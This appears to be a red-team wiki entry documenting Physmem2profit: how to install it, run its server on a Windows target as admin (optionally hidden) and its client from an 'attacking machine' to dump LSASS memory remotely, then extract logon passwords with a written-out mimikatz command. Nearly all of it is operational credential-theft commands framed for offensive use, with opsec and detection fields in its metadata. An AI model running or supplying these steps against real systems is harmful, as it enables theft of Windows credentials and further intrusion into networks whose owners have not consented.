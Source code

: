 
## Installation
1. Clone the Physmem2profit Git repository:
> git clone --recurse-submodules https://github.com/FSecureLABS/physmem2profit.git
2. For the server running on the target computer: Build physmem2profit/server/Physmem2profit.sln with Visual Studio
3. For the client running on the attacking machine:
> bash physmem2profit/client/install.sh

## [[LSASS dumping]]
1. Run on the target as admin
> physmem2profit.exe [--ip IP] [-p PORT] [--hidden] [--verbose]
2. You can download the signed Winpmem driver [here](https://github.com/Velocidex/WinPmem/raw/master/kernel/binaries/winpmem_x64.sys). This driver needs to be present on the target host.
3. Run on the attacking machine. This command will activate the virtualenv created by install.sh.
> source physmem2profit/client/.env/bin/activate 
4. Run on the attacking machine
> cd physmem2profit/client and python3 physmem2profit --host HOST [--port PORT] [--mode MODE] [--driver DRIVER ] [--instal DRIVER_PATH_ON_TARGET] [--label LABEL_FOR_MEMORY_DUMP]
- physmem2profit.exe needs to be running on the target machine before you run this command.
- This will write the LSASS minidump to output/[label]-[date]-lsass.dmp on the attacking machine.
5. Copy the minidump to a Windows system and run mimikatz
> mimikatz.exe "sekurlsa::minidump [label]-[date]-lsass.dmp" "sekurlsa::logonpasswords" "exit"


```meta
requirements: admin
results: 
category: 
opsec: 
oss: #win
source: https://github.com/FSecureLABS/physmem2profit
description: Used to create a minidump of a target hosts' LSASS process by analysing physical memory remotely
undetected: 
```